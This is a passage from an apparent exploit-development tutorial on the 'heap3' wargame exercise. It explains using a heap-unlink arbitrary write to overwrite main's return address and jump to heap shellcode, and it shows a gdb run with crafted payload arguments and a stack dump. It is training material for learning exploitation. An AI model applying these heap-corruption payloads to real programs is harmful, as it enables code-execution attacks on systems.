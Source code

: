 Alright, so we can clearly control this arbitrary memory write with precision. Now,
how do we exploit this? What do we overwrite to exploit the program? In reality,
this may heavily depend on the target program. In some cases we may only want
to flip a bit to set a flag or change some other variable in memory, but
a more devastating option is to redirect execution. While we could
potentially overwrite any function pointer in writeable memory (.dtors, .got, etc...)
a more familiar option would be to overwrite the return address on the stack.
Now that we have our target, we need to pick what to set it to.
Because this must also be an address in writeable memory, we have some restrictions.
For example, we can't redirect execution to some function in .data because it's
read-only. Redirecting to some library function in the Global Offset Table (.got)
could be possible, but we'd normally have to set up variables on the stack
to do anything useful with that. Instead, we'll redirect execution back
into the heap, which is mapped as both writeable and executable.


First, we'll find our return address. This is similar to the stack portion, where
we simply breakpoint somewhere in main, then examine the stack to determine where
this is. Because various bits of libc code are executed before we even get to
\texttt{main}, we need to remember that changing number and size of arguments
given to the program can change precisely where \texttt{main}'s stack is. Since we
want to redirect execution to the heap, we'll fill chunk \texttt{c} with bytes,
as if we put shellcode there. That way the return address location we determine 
won't change once we move from overwriting it to developing the payload shellcode.

\begin{lstlisting}
(gdb) r `python -c 'print("A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff")'` `python -c 'print("\xf0"*4+"\x04\xc0\x04\x08"+"\x5c\xc0\x04\x08")'` `python -c 'print("\x90"*32)'`
Breakpoint 12, 0x080488d2 in main (argc=4, argv=0xbffff804) at heap3/heap3.c:20
20      in heap3/heap3.c
(gdb) x/16x $ebp
0xbffff758:     0xbffff7d8      0xb7eadc76      0x00000004      0xbffff804
0xbffff768:     0xbffff818      0xb7fe1848      0xbffff7c0      0xffffffff
0xbffff778:     0xb7ffeff4      0x08048576      0x00000001      0xbffff7c0
0xbffff788:     0xb7ff0626      0xb7fffab0      0xb7fe1b28      0xb7fd7ff4
\end{lstlisting}

